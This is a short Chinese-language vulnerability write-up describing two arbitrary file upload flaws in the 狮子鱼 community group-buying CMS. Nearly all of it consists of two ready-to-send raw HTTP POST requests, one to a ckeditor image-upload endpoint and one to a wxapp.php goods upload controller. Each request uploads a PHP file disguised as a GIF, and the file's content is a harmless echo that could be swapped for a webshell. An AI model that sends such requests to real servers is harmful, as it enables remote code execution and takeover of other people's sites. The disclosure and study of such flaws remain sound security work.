


# 狮子鱼社区团购系统CMS存在两处任意文件上传

## 漏洞描述

狮子鱼社区团购系统CMS存在任意文件上传

## 漏洞影响

> 狮子鱼社区团购系统

## FOFA

> 未测

## 漏洞复现

###任意文件上传（1）

```
POST /Common/ckeditor/plugins/multiimg/dialogs/image_upload.php HTTP/1.1
Host: 192.168.3.7
Content-Length: 213
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
 
------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; name="files"; filename="qingy.php"
Content-Type: image/gif
 
<?php echo('qingy');?>
 
------WebKitFormBoundary8UaANmWAgM4BqBSs—

```

 

 

###任意文件上传（2）

```
POST /wxapp.php?controller=Goods.doPageUpload HTTP/1.1
Host: 192.168.3.7
Content-Length: 214
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
 
------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; name="upfile"; filename="qingy.php"
Content-Type: image/gif
 
<?php echo('qingy');?>
 
------WebKitFormBoundary8UaANmWAgM4BqBSs--
```

